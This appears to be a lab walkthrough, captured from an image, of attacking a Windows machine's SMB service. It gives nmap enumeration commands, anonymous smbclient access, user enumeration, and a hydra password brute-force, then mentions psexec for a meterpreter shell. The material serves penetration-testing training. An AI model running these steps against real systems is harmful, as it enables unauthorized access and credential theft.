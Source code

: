 ```shell
cat /etc/hosts
ping -c 1 <target_IP_1>
ping -c 1 <target_IP_2> # Not reachable
nmap -sV -O <target_IP_1>
# By default, the SMB service uses either IP port 139 or 445.
```

All the ports expose core services of the Windows operating system, i.e., SMB, RDP, RPC, etc. In this section, we will perform attacks on the SMB service.

```shell
nmap -sV -p 139,445 <target_IP_1>
ls /usr/share/nmap/scripts/ | grep smb

# Now, let's identify all the supported SMB versions on the target machine.
nmap -p 445 --script smb-protocols <target_IP_1>
# We can notice that all three versions are accessible.

# Let's run the nmap script to find the smb protocol security level.
nmap -p 445 --script smb-security-mode <target_IP_1>

# Let's run the smbclient tool to find that we have anonymous access on the target machine.
smbclient -L <target_IP_1>
# We can access the target using anonymous login.
```

We can access the target using anonymous login. Now, we have anonymous access to the target machine. We can smoothly dump all the present windows users using the nmap script. 

```shell
nmap -p445 --script smb-enum-users.nse <target_IP_1>
# There are a total of four users present. admin, administrator, root, and guest.

# Now, let's find the valid password for admin, administrator, and root user.
vim users.txt
admin
administrator
root
```

Now, let's run the hydra tool for brute-forcing the SMB protocol to find the valid password of the provided users.

```shell
hydra 
-L 
users.txt 
-P 
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
<target_IP> 
smb
```

Now, we can use the Metasploit framework and run the psexec exploit module to gain the meterpreter shell using the administrator user valid password.
